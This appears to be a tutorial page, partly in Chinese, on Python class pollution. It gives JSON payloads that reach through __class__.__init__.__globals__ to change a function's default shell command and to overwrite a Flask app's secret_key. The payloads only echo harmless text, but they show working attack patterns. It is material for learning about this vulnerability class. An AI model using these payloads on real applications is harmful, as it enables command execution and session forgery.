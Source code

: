 ```python
from os import system
import json

def merge(src, dst): ...

class Employee:
    def __init__(self):
        pass

def execute(*, command='whoami'):
    print(f'Executing {command}')
    system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}')
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
```

---

### 类污染利用：修改 Flask session 的 secret_key

```python
from flask import Flask, session

app = Flask(__name__)
app.secret_key = 'secret'

@app.route('/')
def index():
    return session['username']

class Employee:
    def __init__(self):
        pass

merge(
    {
        "__class__": {"__init__": {"__globals__": {"app": {"secret_key": "Polluted"}}}}
    },
    Employee(),
)

print(app.secret_key) #> Polluted
```
